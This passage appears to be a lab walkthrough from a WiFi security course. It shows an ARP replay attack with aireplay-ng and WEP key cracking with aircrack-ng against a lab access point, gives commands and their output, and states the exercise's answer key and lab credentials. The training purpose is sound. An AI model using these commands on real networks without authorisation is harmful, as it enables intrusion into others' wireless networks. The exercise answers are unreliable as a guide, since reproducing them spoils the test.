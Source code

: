Students will open a new terminal and use `aireplay-ng` to replay the packets using the BSSID found in `airodump-ng` and the client MAC address from the `STATION` column, respectively. Note the MAC addresses may change upon target spawn or reset.

Code: shell

```shell
sudo aireplay-ng -3 -b D8:D6:3D:EB:29:D5 -h 0E:D1:22:CF:ED:67 wlan0mon
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -3 -b D8:D6:3D:EB:29:D5 -h 0E:D1:22:CF:ED:67 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 0E:D1:22:CF:ED:67
06:11:23  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1
Saving ARP requests in replay_arp-1126-061123.cap
You should also start airodump-ng to capture replies.

190123 packets (got 63520 ARP requests and 0 ACKs), sent 62915 packets...(500 pps)
```

After a moment, students will terminate both processes (`airodump-ng` and `aireplay-ng`) with the key combination of `CTRL + C`. Subsequently, students will use `aircrack-ng` using the BSSID of the target found through `airodump-ng` with the packet capture `Student-01.cap` to retrieve the key:

Code: shell

```shell
aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap
```

```
wifi@WiFiIntro:~$ aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap

Reading packets, please wait...
Opening Student-01.cap
Read 251741 packets.

1 potential targets      Got 125900 out of 125000 IVsStarting PTW attack with 125900 ivs.
                     KEY FOUND! [ {hidden} ] 
	Decrypted correctly: 100%
```

Answer: `12:34:51:23:45`

# Fragmentation Attack

## Question 1

### "Perform the Fragmentation attack on the WiFi network. What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)"

After spawning the target, students will establish an RDP connection using the credentials `wifi:wifi`:

